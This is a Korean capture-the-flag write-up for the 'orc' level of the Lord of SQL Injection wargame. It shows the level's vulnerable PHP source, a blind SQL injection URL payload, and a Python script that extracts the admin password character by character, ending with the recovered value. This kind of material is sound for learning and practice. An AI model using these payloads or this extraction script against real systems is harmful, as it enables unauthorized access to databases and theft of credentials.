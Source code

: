 # Lord of SQL Injection No.4 - orc
## 문제 출제 의도 
Blind SQL Injection을 통하여 문제를 해결할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
+ 문제를 푸는 조건은 '입력받은 pw와 데이터베이스에 저장되어있는 pw가 같음' 이다.
### addslashes 함수
* 데이터베이스 질의 등에서 처리할 필요가 있는 문자 앞에 백슬래시를 붙인 문자열을 반환
* 홑따옴표('), 겹따옴표("), 백슬래시(\\), NUL(NULL 바이트)가 포함됨
## Solution
+ http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=' or id='admin' and length(pw)=8-- -을 통하여 pw가 8자리일 때 Hello admin을 출력하는 것을 알았으니 pw는 8자리라고 할 수 있다.
+ 직접 넣어보는 것은 비효율적이기 때문에 파이썬 코드를 이용한다.
``` python
import urllib.request #내장 라이브러리 함수인 urllib의 request모듈을 불러온다
from urllib.parse import quote #urllib의 parse에서 quote함수를 사용할 수 있게 불러온다.

key = "" #pw 값을 담을 변수이다.
for i in range(1, 9): #8자리임을 알았으므로 8자리 각각 돌린다.
    for j in range(32, 127): #한 자리에 표현가능한 아스키코드값이다.
        url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=" #고정 url이다.
        data = "' or id='admin' and substr(pw, {}, 1)='{}'#".format(str(i), chr(j)) #자릿수마다 달라질 수 있는 가변적 값을 넣는 부분이다.
        print(data) #어떤 값이 들어갔는지 보여준다.
        data = quote(data) #url encoding을 해준다.
        re = urllib.request.Request(url + data) #request 모듈의 Request 클래스를 통해 Request 객체를 만든다.

        re.add_header(
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36") #re 객체의 헤더에 user-agent를 추가한다. 만약 없을시에는 403 forbidden 에러가 발생한다.
        re.add_header(
            "Cookie", "PHPSESSID=244vrnv66i63b89qfsegu2jls1"
        )  #re 객체의 헤더에 세션 아이디값을 넣어준다. 만약 이것이 없을 시에는 로그인을 체크하는 기능을 하는 부분에서 걸려서 처리를 하지 않고 <script>location.href='./';</script>만 반환해준다.

        req = urllib.request.urlopen(re) #객체를 통하여 응답을 요청한다.

        if str(req.read()).find("Hello admin") != -1: #find 함수가 "Hello admin"이라는 문자열을 찾을 경우에는 인덱스값을 반환해주기 때문에 -1이 아니게 된다. 
            key += chr(j).lower() #key변수 뒤에 j값에 해당하는 아스키코드 문자를 붙여준다.
            print(key) #나온 자리의 키값을 출력해준다.
            break #반복문을 탈출한다.
print(key) #최종 pw값을 알려준다.
```
+ 실행 결과인 295d5844를 pw값으로 전달해주면 문제가 풀린다.